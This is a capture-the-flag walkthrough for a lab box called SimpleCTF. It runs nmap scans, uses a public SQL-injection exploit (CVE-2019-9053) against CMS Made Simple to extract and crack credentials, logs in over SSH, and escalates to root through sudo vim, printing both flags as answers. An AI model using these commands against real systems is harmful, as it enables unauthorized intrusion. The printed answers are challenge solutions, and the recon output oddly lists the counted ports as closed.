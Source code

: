 # SimpleCTF

## #1 How many services are running under port 1000?
Save ip as a variable
```
export ip=<ip>
```

Run Nmap scan to scan the host for open ports
```
nmap $ip
21/tcp   closed ftp
80/tcp   closed http
2222/tcp closed EtherNetIP-1
```
Answer:
`
2
`


## #2 What is running on the higher port?
```
nmap -p2222 -sV -sC $ip

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

Answer:
`
SSH
`

## #3 What's the CVE you're using against the application?
CMS Made Simple version 2.2.8

Answer:
`
CVE-2019-9053
`

## #4 To what kind of vulnerability is the application vulnerable?

Answer:
`
sqli
`
## #5 What's the password?
Search for exploit using searchsploit
```
searchsploit cms made simple
```

Copying the exploit file to folder
```
searchsploit -m php/webapps/46635.py
```

Using the exploit to get username and password
```
python 46635.py -u http://$ip/simple -c -w /opt/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Answer
`
secret
`

## #6 Where can you login with the details obtained?
Connect to SSH
```
ssh mitch@$ip -p 2222
```

## #7 What's the user flag?
```
cd
cat user.txt
```

Answer:
`
G00d j0b, keep up!
`

## #8 Is there any other user in the home directory? What's its name?
Start with stabelising the shell
```
python -c "import pty; pty.spawn('/bin/bash')" 
```
ls the user folders
```
cd
cd ..
ls
mitch  sunbath
```

Answer:
`
sunbath
`

## #9 What can you leverage to spawn a privileged shell?
List out what we can do
```
sudo -l
```
We can use vim as root without using the password
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Get root by using vim.
```
sudo vim -c ':!/bin/sh'
```

Answer:
`
vim
`

## #10 What's the root flag?
Stabelice the shell after getting root
```
python -c "import pty; pty.spawn('/bin/bash')"
```
```
cat /root/root.txt
```

Answer:
`
W3ll d0n3. You made it!
`
